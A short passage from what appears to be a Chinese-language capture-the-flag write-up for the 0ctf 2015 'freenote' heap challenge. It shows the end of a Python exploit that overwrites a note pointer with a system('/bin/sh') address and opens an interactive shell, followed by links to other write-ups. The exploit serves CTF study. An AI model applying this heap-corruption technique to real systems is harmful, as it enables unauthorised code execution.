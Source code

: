 ```python
payload2 += "A"* (notelen*3-len(payload2)) 

edit_note(0, payload2)
edit_note(0, p64(system_sh_addr))

delete_note(1)

p.interactive()

```

### 参考资料
http://angelboy.logdown.com/posts/259180-0ctf-2015-write-up
https://blog.csdn.net/qq_33528164/article/details/80085926
https://kitctf.de/writeups/0ctf2015/freenote




